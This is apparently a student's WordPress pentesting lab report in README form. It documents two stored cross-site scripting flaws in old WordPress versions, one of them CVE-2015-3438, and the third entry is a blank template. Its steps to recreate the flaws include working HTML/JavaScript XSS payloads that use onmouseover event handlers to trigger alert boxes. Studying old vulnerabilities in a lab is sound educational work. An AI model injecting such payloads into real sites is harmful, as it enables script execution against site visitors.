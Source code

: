 # Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID: Unauthenticated Stored Cross-Site Scripting
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.3.1
  - [x] GIF Walkthrough: <img src="XSS1.gif" width="800"> 
  - [x] Steps to recreate: Navigate to the side navigation menu. Click "Posts", and make a new post. Add the following to the body: ```<p>XSS Test 1<figure style="width: 1px;" class="wp-caption alignnone"><figcaption class="wp-caption-text"><a href="</figcaption></figure></a><a href="http://onMouseOver='alert(1)'">Hover here</a></p>```
  - [x] Affected source code:
    - [Link 1](https://blog.checkpoint.com/2015/09/15/finding-vulnerabilities-in-core-wordpress-a-bug-hunters-trilogy-part-iii-ultimatum/)

2. (Required) Vulnerability Name or ID: Unauthenticated Stored Cross-Site Scripting CVE-2015-3438
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.0
    - Fixed in version: 4.1.2
  - [x] GIF Walkthrough: <img src="XSS2.gif" width="800">
  - [x] Steps to recreate: Create a new post or go to an existing post. Scroll to the comment box and add the following to the body:
  ```<backquote cite="hey" onmouseover=alert("uh-oh")>testing xss 2```
  - [x] Affected source code: 
    - [Link 1](https://core.trac.wordpress.org/browser/tags/4.0.16/src/wp-comments-post.php)

3. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

    ## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.